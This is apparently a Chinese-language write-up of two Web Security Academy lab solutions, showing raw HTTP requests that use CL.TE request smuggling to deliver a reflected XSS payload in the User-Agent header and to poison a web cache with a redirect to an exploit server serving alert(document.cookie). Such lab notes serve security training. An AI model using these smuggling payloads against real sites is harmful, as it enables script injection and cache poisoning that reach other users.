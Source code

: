 ### 10. Exploiting HTTP request smuggling to deliver reflected XSS

这个题目在User-Agent那里存在xss。

先找到注入点：

```http
GET /post?postId=9 HTTP/1.1
Host: acd81f821e43803780ad1d56009d00a2.web-security-academy.net
User-Agent: a"><script>alert(1)</script>
```

构造payload：

```http
POST /post/comment HTTP/1.1
Host: acd81f821e43803780ad1d56009d00a2.web-security-academy.net
Content-Length: 143
Transfer-Encoding: chunked

0

GET /post?postId=9 HTTP/1.1
Host: acd81f821e43803780ad1d56009d00a2.web-security-academy.net
User-Agent: a"><script>alert(1)</script>


```

### 11. Exploiting HTTP request smuggling to perform web cache poisoning

> 漏洞： CL.TE

```http
POST /post/comment HTTP/1.1
Host: ac3d1f301edd1c2a80181dc100e0000c.web-security-academy.net
Content-Length: 124
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /post/next?postId=2 HTTP/1.1
Host: ace41fb41e6b1c0980771de2012f00b9.web-security-academy.net
Connection: close


```

发现这个可以重定向：`Location: https://ace41fb41e6b1c0980771de2012f00b9.web-security-academy.net/post?postId=3`

在`Exploit Server`的body那里加上`alert(document.cookie);`，并将名字改成`/post`。
